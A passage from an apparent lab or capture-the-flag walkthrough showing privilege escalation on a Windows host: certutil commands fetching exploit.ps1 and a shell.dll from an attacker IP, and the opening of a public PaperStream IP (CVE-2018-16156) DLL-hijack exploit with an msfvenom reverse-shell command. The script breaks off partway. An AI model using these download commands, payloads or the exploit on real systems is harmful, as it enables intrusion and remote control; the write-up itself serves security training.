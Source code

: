 Now i'll upload the exploit.ps1 & shell.dll to the target 

```
c:\Users\tony\Desktop>certutil.exe -urlcache -f http://192.168.49.88/exploit.ps1 exploit.ps1
certutil.exe -urlcache -f http://192.168.49.88/exploit.ps1 exploit.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.
c:\Users\tony\Desktop>certutil.exe -urlcache -f http://192.168.49.88/shell.dll shell.dll    
certutil.exe -urlcache -f http://192.168.49.88/shell.dll shell.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.
c:\Users\tony\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC2F-6399

 Directory of c:\Users\tony\Desktop

01/20/2023  02:56 PM    <DIR>          .
01/20/2023  02:56 PM    <DIR>          ..
01/20/2023  02:47 PM             2,375 exploit.ps1
01/20/2023  02:22 PM                34 local.txt
04/22/2020  03:23 AM             1,450 Microsoft Edge.lnk
01/20/2023  02:56 PM             8,704 shell.dll
               4 File(s)         12,563 bytes
               2 Dir(s)   6,910,574,592 bytes free

c:\Users\tony\Desktop>
```

Here'e how the exploit.ps1 file should look like

```
# Exploit Title: PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation
# Exploit Author: 1F98D
# Original Author: securifera
# Date: 12 May 2020
# Vendor Hompage: https://www.fujitsu.com/global/support/products/computing/peripheral/scanners/fi/software/fi6x30-fi6x40-ps-ip-twain32.html
# CVE: CVE-2018-16156
# Tested on: Windows 10 x64
# References:
# https://www.securifera.com/advisories/cve-2018-16156/
# https://github.com/securifera/CVE-2018-16156-Exploit

# A DLL hijack vulnerability exists in the FJTWSVIC service running as part of
# the Fujitsu PaperStream IP (TWAIN) software package. This exploit searches
# for a writable location, copies the specified DLL to that location and then
# triggers the DLL load by sending a message to FJTWSVIC over the FjtwMkic_Fjicube_32
# named pipe.

$ErrorActionPreference = "Stop"

# Example payload generated as follows
# msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=eth0 LPORT=4444
$PayloadFile = "C:\users\tony\desktop\shell.dll"

if ((Test-Path $PayloadFile) -eq $false) {
    Write-Host "$PayloadFile not found, did you forget to upload it?"
    Exit 1
}

# Find Writable Location
$WritableDirectory = $null
```